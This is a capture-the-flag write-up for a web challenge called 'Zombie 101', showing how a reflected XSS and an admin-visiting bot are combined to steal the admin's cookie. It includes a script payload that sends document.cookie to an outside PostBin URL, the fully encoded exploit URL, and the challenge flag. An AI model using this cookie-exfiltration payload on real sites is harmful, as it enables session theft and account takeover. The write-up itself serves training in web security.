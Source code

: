 # Zombie 101

## Category: Web
## Points: 100

In the challenge description we are given a link to the following website:

![website](zombie.png)

It's also noted in the description that this challenge is a classic "steal the admin's cookie" challenge.

Given two input boxes for this challenge, I immediately test for a XSS vulnerability
in the first box and unsurprisingly, I get a pop-up with the age-old:
```
<script>alert(0)</script>

```
The second form allows you to pass a URL to the 'admin' bot, and it will visit that page. 
The source code is given to us and we can see the restrictions of the URL we pass in:

```
const validateRequest = (req) => {
    const url = req.query.url
    if (!url) {
        return 'Hmmm, not seeing a URL. Please try again.'
    }

    let parsedURL
    try {
        parsedURL = new URL(url)
    }
    catch (e) {
        return 'Something is wrong with your url: ' + escape(e.message)
    }

    if (parsedURL.protocol !== 'http:' && parsedURL.protocol !== 'https:') {
        return 'Our admin is picky. Please provide a url with the http or https protocol.'
    }

    if (parsedURL.hostname !== req.hostname) {
        return `Please provide a url with a hostname of: ${escape(req.hostname)}  Hmmm, I guess that will restrict the submissions. TODO: Remove this restriction before the admin notices and we all get fired.`
    }

    return null
}
```

We can craft a simple exploit to steal the admin's cookie and redirect it to our own server:

```
<script>
fetch('https://www.toptal.com/developers/postbin/xxxx-xxxx?cookie='+document.cookie,{headers: {'Accept': ''}})
   .then(response => response.text())
   .then(text => console.log(text))
</script>
```

After injecting this payload into the first input box, we get a URL to give to the zombie page for the admin to check out.

Submitting this URL:

```
# https://zombie-101-tlejfksioa-ul.a.run.app/visit?url=https%3A%2F%2Fzombie-101-tlejfksioa-ul.a.run.app%2Fzombie%3Fshow%3D%253Cscript%253Efetch%2528%2527https%253A%252F%252Fwww.toptal.com%252Fdevelopers%252Fpostbin%xxxx-xxxx%253Fcookie%253D%2B%2527%252Bdocument.cookie%252C%257Bheaders%253A%2B%257B%2527Accept%2527%253A%2B%2527%2527%257D%257D%2529%2B.then%2528response%2B%253D%253E%2Bresponse.text%2528%2529%2529%2B.then%2528text%2B%253D%253E%2Bconsole.log%2528text%2529%2529%253C%252Fscript%253E
```

Gives us the flag in the response from PostBin:

cookie: flag=wctf{c14551c-4dm1n-807-ch41-n1c3-j08-93261}

